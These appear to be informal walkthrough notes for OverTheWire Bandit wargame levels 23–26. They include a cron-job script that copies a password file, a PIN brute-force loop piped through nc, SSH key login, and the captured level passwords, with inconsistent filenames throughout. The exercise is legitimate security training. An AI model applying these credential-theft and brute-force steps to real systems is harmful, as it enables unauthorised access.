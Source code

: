 LVL 23 - 24

get 2 terminals
(1 terminal)
cd /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
ls *(means all the files) ls c*(it shows all the files that begin with letter c)
(. is current directory and .. is parent directory)
in here we belong to other category
ls -l /var/spool/bandit24/foo/file1.sh



(2 terminal)
mkdir /tmp/shenal111
vim file.sh

#!/bin/bash


cat /etc/bandit_pass/bandit24 > /tmp/shenal111/destination.txt

chmod o+x file1.sh
chmod o+w .
chmod o+w /tmp/shenal1^C
touch destination0.txt^C (do not execute just crrl+C)
chmod o+w destination0.txt^C
cp file.sh /var/spool/bandit24/foo
after that quickly ( in first terminal you can view ls -l /var/spool/bandit24/foo/file1.sh)
in 2 terminal cat destination0.txt (then you will get the password)

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

LVL 24 - 25

create a directory mkdir tmp/ex1

nano file.sh

#!/bin/bash

for i in {0000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done

./test.sh | nc localhost 30002 | grep -v "Wrong"


p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d



LVL 25 -26

cat bandit26.sshkey

ssh -i bandit26.sshkey bandit26@localhost -p2220

file /bin/bash
file /usr/bin/showtext
cat /usr/bin/showtext

